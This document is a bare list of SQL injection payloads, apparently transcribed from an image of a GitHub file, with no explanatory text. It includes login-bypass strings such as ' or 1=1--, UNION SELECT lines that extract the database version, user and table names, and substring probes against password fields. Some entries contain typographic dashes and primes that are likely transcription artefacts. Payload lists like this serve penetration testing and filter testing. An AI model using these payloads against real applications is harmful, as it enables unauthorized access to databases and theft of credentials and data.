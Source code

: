 ```
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or a=a--
' or a=a–
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
') or ('x'='x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
"
'-- 2
"-- 2
'='
0'&lt;'2
"="
0"&lt;"2
')
")
')-- 2
')/*
')#
")-- 2
") #
")/*
')-('
')&('
')^('
')*('
```